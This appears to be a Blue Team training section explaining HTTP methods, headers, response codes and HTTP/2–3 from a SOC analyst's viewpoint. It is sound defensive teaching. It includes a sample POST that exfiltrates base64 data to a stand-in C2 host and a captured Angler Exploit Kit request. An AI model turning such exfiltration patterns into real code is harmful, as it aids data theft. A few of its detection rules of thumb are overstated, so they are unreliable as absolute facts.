




> **Goal of this section:**
> We'll understand how the HTTP protocol works from the ground up, what the methods, headers, and response codes are, and how a SOC analyst reads HTTP traffic and detects malicious activity in it.

---

## Table of Contents

- [Introduction](#introduction)
- [What Is a Webserver](#what-is-a-webserver)
- [Anatomy of a URI](#anatomy-of-a-uri)
- [HTTP Methods](#http-methods)
  - [GET Method](#get-method)
  - [POST Method](#post-method)
  - [HTTP/1.1 Additional Methods](#http11-additional-methods)
- [HTTP Request Headers](#http-request-headers)
  - [The Most Important Request Headers](#the-most-important-request-headers)
  - [How to Evaluate a Suspicious Request Header](#how-to-evaluate-a-suspicious-request-header)
- [HTTP Response Headers](#http-response-headers)
- [HTTP Response Codes](#http-response-codes)
- [HTTP/2 and HTTP/3](#http2-and-http3)
- [Diagrams](#diagrams)
- [Quick Comparisons](#quick-comparisons)
- [Key Notes](#key-notes)
- [Summary](#summary)

---

## Introduction

HTTP (HyperText Transfer Protocol) is the backbone of the internet, and as a SOC analyst you'll see it in almost everything — from ordinary browsing all the way to malware Command and Control.

The problem is that almost **every stage of an attack** can be carried out over HTTP:
- Exploit Delivery
- Malware Installation
- Command & Control (C2)
- Data Exfiltration

That's why understanding HTTP in depth isn't a luxury — it's a **necessity** for any Blue Team analyst.

---

## What Is a Webserver

At its core, a webserver is **file sharing** using the HTTP protocol. When you request a site, the webserver sends you the file in the URL path.

```
/var/www/html/mysite/index.html
     ^                ^
 Path on the server   Requested file
```

### The Most Popular Webservers

| Webserver | Vendor | Common Use |
|-----------|--------|-----------------|
| Apache | Apache Foundation | Linux Servers |
| NGINX | NGINX Inc. | High-Performance Sites |
| IIS | Microsoft | Windows Servers |

### How It Works

1. The browser sends an **HTTP Request** to the webserver
2. The webserver reads the URL path
3. It returns the requested file in an **HTTP Response**
4. The browser interprets the HTML/CSS/JavaScript and renders it

---

## Anatomy of a URI

A URI (Uniform Resource Identifier) is the full address of any resource on the internet.

```
http://this.is.a.site.com:8000/mysite/index.html?key1=val&key2=val
  ^         ^        ^     ^      ^        ^          ^
Protocol  Subdomain Domain Port  Folder  Filename  GET Parameters
```

### Each Part Explained

| Part | Example | Meaning |
|-------|--------|--------|
| **Protocol** | `http://` or `https://` | The connection type |
| **Subdomain** | `this.is.a` | An internal division of the domain |
| **Domain** | `site.com` | The site's name |
| **Port** | `:8000` | The port number (80 by default for HTTP, 443 for HTTPS) |
| **Path** | `/mysite/index.html` | The file's path on the server |
| **GET Parameters** | `?key1=val&key2=val` | Data sent with the request |

> [!TIP]
> If no port is specified, the browser uses port 80 for HTTP and port 443 for HTTPS by default. Unusual ports such as 8080 or 8000 aren't common on legitimate sites, so they may be a sign that needs investigating.

---

## HTTP Methods

### GET Method

GET is the **most commonly used method** in HTTP. It's used to "fetch" a file from the server.

**Its characteristics:**
- The data sent appears in the URL as parameters
- Used for small amounts of data (search terms, for example)
- **Exposes** the data in webserver logs and proxy logs

**Why does this matter for security?**

If a developer used GET to send a username and password, that data would be fully recorded in the logs — and that's a major security risk.

```
http://example.com/login?username=admin&password=1234
                           ^                ^
                    Exposed in the logs     Exposed in the logs
```

> [!WARNING]
> **Get suspicious** if you see credentials being sent via GET parameters in the logs — that's a security mistake, or it could be malware trying to hide its communication.

---

### POST Method

POST is used to send data to the server — such as registration forms, logins, or any large data.

**Its characteristics:**
- The data is sent in the request **Body**, not in the URL
- **Doesn't appear** in proxy logs or webserver access logs
- Can carry large amounts of data

**Why does malware love it?**

Malware uses POST because:
1. The data sent isn't visible in the logs
2. It can encode or encrypt the content
3. It passes through any firewall that allows HTTP

```
POST /submit HTTP/1.1
Host: evil-c2-server.com
Content-Type: application/x-www-form-urlencoded

data=base64EncodedMalwareData==
     ^
The data is hidden in the Body, not in the URL
```

---

### HTTP/1.1 Additional Methods

| Method | Use | Security Relevance |
|--------|-----------|----------------|
| **CONNECT** | Creates a TLS tunnel through a proxy | Important for understanding HTTPS traffic |
| **HEAD** | Same as GET but without a body | Used to check a file's date |
| **OPTIONS** | Asks which methods are available | Can reveal information about the server |
| **PUT** | Uploads a file to the server | **Dangerous!** Attackers use it to upload web shells |
| **DELETE** | Deletes a resource | Rare, but can be harmful |
| **TRACE** | A loopback of the request | Used for diagnostics |

> [!IMPORTANT]
> The PUT method is the most dangerous of them from a security standpoint — if the server allows it without verification, the attacker can upload malicious files or a web shell to it.

---

## HTTP Request Headers

HTTP headers are **metadata** that provide additional information about the request. They're key:value pairs present in every request and response.

### The Most Important Request Headers

```
GET /page.html HTTP/1.1
Host: example.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)
Referer: https://google.com/
Accept: text/html,application/xhtml+xml
Cookie: sessionid=abc123xyz
```

| Header | Function | Security Relevance |
|--------|---------|----------------|
| **Host** | The intended domain | Very important — multiple sites can share the same IP |
| **User-Agent** | The browser or program being used | Reveals the type of client |
| **Referer** | The previous page | Can reveal the redirect chain |
| **Cookie** | The session identifier | Used for authentication and can hide data |
| **Accept** | The accepted file types | Reveals the type of client |
| **X-Forwarded-For** | The original IP if there's a proxy | Reveals the real source IP |

---

### How to Evaluate a Suspicious Request Header

When you see a suspicious HTTP request, ask yourself:

```
1. Host  --> Is the domain legitimate? Is it old or new?
2. User-Agent --> Is the program known? Does the OS make sense on your network?
3. Path --> Does the file path make sense? Is there unnecessary encoding?
4. Content --> Is there Base64 in the wrong place? Is there encrypted data?
```

**A real example — Angler Exploit Kit:**

```
GET /PVfXBbR9WReNMmbQzLqrbDvNmen2ConnpC4tVP6U4RFI4HnE HTTP/1.1
Host: k615o5ij7f.skwosh.eu
Referer: http://k615o5ij7f.skwosh.eu/38104p5h2c
User-Agent: Mozilla/4.0 (compatible; MSIE 10.0; Windows NT 6.1)
```

**Why is this suspicious?**
- The URL is random and doesn't reflect a real file name
- The domain has a random subdomain
- The Referer is from the same suspicious domain

---

## HTTP Response Headers

The server also returns response headers — and they reveal important information about the server and the nature of the returned file.

```
HTTP/1.1 200 OK
Server: Apache/2.4.41 (Ubuntu)
Date: Mon, 08 Feb 2021 12:00:00 GMT
Content-Type: text/html; charset=UTF-8
Content-Length: 2182
Set-Cookie: sessionid=xyz789; HttpOnly
```

| Header | Meaning | Security Use |
|--------|--------|-----------------|
| **Server** | The webserver's type and version | If it says nginx/0.7.67 — an old version that may have vulnerabilities |
| **Content-Type** | The type of the returned file (MIME Type) | Look for EXE or ZIP files downloaded from strange places |
| **Content-Length** | The file size in bytes | Unexpectedly large downloads = suspicious |
| **Set-Cookie** | Sets a cookie for the client | Malware can hide data here |
| **Date** | The time of the response | Useful in forensics for establishing the timeline |

> [!NOTE]
> **Content-Type** is one of the most important headers for the analyst — if the server claims it's returning `text/html` but the content has the magic bytes of an EXE file, that's clear evidence of tampering.

---

## HTTP Response Codes

Response codes tell you **what happened** after you sent the request.

### Code Categories

```
1xx  Informational    --> The request arrived, wait
2xx  Success          --> Completed successfully
3xx  Redirection      --> Go somewhere else
4xx  Client Error     --> You did something wrong
5xx  Server Error     --> The server has a problem
```

### The Most Important Codes and Their Security Interpretation

| Code | Meaning | Security Relevance |
|------|--------|----------------|
| **200** | OK — the request succeeded | Normal |
| **301** | Moved Permanently | Check the redirect destination |
| **302** | Found — a temporary redirect | Exploit kits use it a lot for redirect chains |
| **401** | Unauthorized | The user needs to log in — brute force? |
| **403** | Forbidden | The user is logged in but not allowed — access control |
| **404** | Not Found | Could be an attacker trying to find hidden paths |
| **407** | Proxy Auth Required | If malware doesn't complete auth afterward = suspicious |
| **500** | Internal Server Error | Can reveal a SQL injection or buffer overflow attempt |

> [!TIP]
> If you see many requests getting **404** from the same IP — that's usually directory brute-forcing or a scanner trying to find hidden files.

---

## HTTP/2 and HTTP/3

### HTTP/2 — The New Challenge for the Blue Team

HTTP/2 brought major performance improvements, but it complicated the analyst's life.

**The key differences:**

| Feature | HTTP/1.1 | HTTP/2 |
|---------|----------|--------|
| Connections | A TCP connection per request | One TCP connection for all requests |
| Header format | Plain text | Binary frames |
| Tracking | Easy | Requires the Stream ID |
| Encryption | Optional | Mandatory for browsers |
| Server Push | Doesn't exist | The server sends files before you request them |

**In Wireshark with HTTP/2:**
- Look for the packets labeled `HEADERS` and `DATA`
- Follow the **Stream ID** to link the request to the response
- Headers are now compressed with HPACK — you can't read them directly

### HTTP/3 — QUIC Protocol

HTTP/3 runs over **UDP** instead of TCP — which means:
- Faster performance (no TCP handshake needed)
- Harder to analyze
- Wireshark 3.6 can't fully decode its content

> [!WARNING]
> As HTTP/2 and HTTP/3 spread, the Blue Team will be largely blind without TLS decryption. Start planning for TLS Inspection now, before things get harder.

---

## Diagrams

### The HTTP Request and Response Path



---

### Analysis Flow for a Suspicious HTTP Request



---

### HTTP Methods and Data Flow



---

### HTTP/1.1 vs HTTP/2 Comparison



---

## Quick Comparisons

### GET vs POST

| Feature | GET | POST |
|---------|-----|------|
| Data location | In the URL | In the request body |
| Appears in logs | Yes | No |
| Data limit | Small | Unlimited |
| Use | Fetching files, searching | Forms, logins |
| Security | Data exposed | Data relatively hidden |
| Used in malware | For C2 check-ins | For sending stolen data |

---

### The Most Important Request Headers for a SOC Analyst

| Header | Why It Matters | Red Flag |
|--------|---------|------------|
| **Host** | Tells you the requested domain | A random or very new domain |
| **User-Agent** | Tells you the client type | A strange or missing User-Agent |
| **Referer** | Shows the redirect chain | An illogical redirect |
| **Cookie** | Session management | Suspicious Base64 data |

---

### Response Codes from a Security Perspective

| Code Range | Meaning | What It Means for the Analyst |
|-----------|--------|---------------------|
| 2xx | Success | The request went through — check the type of content returned |
| 3xx | Redirect | Follow the redirect chain |
| 4xx | Client error | Lots of them = scanning or brute force |
| 5xx | Server error | May indicate an exploitation attempt |

---

## Key Notes

> [!NOTE]
> The **Host Header** is one of the most important headers — because multiple sites can be on the same IP address, so if you don't check the Host header, you might think you're talking to a legitimate site when you're actually talking to a different one.

> [!WARNING]
> The **User-Agent** can be spoofed — malware often uses a fixed, hardcoded User-Agent. If you find all the devices using the same old or strange User-Agent, that's a reason to investigate.

> [!IMPORTANT]
> The **Content-Type Header** in the response can be false. A malicious server can say the file is `text/html` when it's actually `application/exe`. **Always** check the file's actual magic bytes, not just the header.

> [!TIP]
> If you see a POST request going directly to an IP (with no domain in the Host header), that's a strong sign of malware C2 communication — legitimate sites always use a domain name.

> [!WARNING]
> As **HTTP/2 and HTTP/3** spread, network visibility will drop significantly. You need to do TLS Inspection and learn how to analyze HTTP/2 traffic in Wireshark using Stream IDs.

---

## Summary

### Key Points

- A **Webserver** is, at its core, a file-sharing system that uses the HTTP protocol
- A **URI** consists of: Protocol + Subdomain + Domain + Port + Path + Parameters
- The **GET Method** exposes data in the URL and in the logs — risky if it contains sensitive data
- The **POST Method** hides data in the body — which is why malware prefers it
- The **PUT Method** is dangerous if it's allowed for unauthenticated users — it can be used to upload web shells
- The **Host Header** is the reliable source for knowing the requested domain
- The **User-Agent** can reveal malware if it's strange or abnormally fixed
- The **Content-Type** in the response can be fake — check the magic bytes
- **Response Codes** help you understand what happened — lots of 404s = scanning
- **HTTP/2 and HTTP/3** have complicated analysis — you need TLS decryption and an understanding of Stream IDs
